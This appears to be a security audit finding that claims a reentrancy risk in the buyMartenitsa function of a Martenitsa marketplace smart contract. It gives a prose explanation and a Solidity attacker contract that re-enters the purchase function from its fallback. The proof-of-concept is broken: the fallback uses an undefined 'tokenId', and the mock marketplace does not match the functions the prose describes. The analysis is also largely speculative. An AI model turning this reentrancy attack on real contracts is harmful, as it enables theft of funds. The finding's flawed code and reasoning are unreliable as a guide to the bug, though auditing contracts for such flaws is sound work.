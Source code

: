 
#### 2
* Risk of reentrancy in the 'buyMartenitsa(uint256)' function of 'MartenitsaMarketplace' contract - lines 60-83. This is mainly because State variables are written after the call(s).

###### Proof of Concept
The function calls, martenitsaToken.updateCountMartenitsaTokensOwner(buyer, add) and martenitsaToken.updateCountMartenitsaTokensOwner(seller, sub) are external calls.

After these external calls, the state variable 'tokenIdToListing[tokenId]' is deleted. This state variable modification occurs after the external calls.

The state variable 'tokenIdToListing' is accessed and modified in multiple functions within the contract, including 'buyMartenitsa', 'getListing', and 'listMartenitsaForSale'. This could potentially lead to reentrancy vulnerabilities, as an attacker could call these functions recursively, exploiting the modification of state variables after external calls. 

There is thus a possibility of a reentrancy vulnerability in the 'buyMartenitsa' function. If an attacker can control the seller address, they may exploit this vulnerability to recursively call the 'buyMartenitsa' function before the state variable 'tokenIdToListing[tokenId]' is deleted, potentially leading to unexpected behavior or malicious actions.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

contract Attacker {
    MartenitsaMarketplace public marketplace;

    constructor(address _marketplace) {
        marketplace = MartenitsaMarketplace(_marketplace);
    }

    // Function to initiate the attack
    function initiateAttack(uint256 tokenId) external payable {
        // Call the vulnerable function with a large amount of Ether
        marketplace.buyMartenitsa{value: msg.value}(tokenId);
    }

    // Fallback function to re-enter the vulnerable function
    fallback() external payable {
        if (address(marketplace).balance >= msg.value) {
            marketplace.buyMartenitsa{value: msg.value}(tokenId);
        }
    }
}

contract MartenitsaMarketplace {
    mapping(uint256 => address) public tokenIdToSeller;
    mapping(address => uint256) public balances;

    function buyMartenitsa(uint256 tokenId) external payable {
        address seller = tokenIdToSeller[tokenId];
        
        // Vulnerable part: Sends Ether to seller's address
        (bool sent, ) = seller.call{value: msg.value}("");
        require(sent, "Failed to send Ether");

        // Update balances
        balances[msg.sender] += msg.value;
        balances[seller] -= msg.value;
    }
}
```
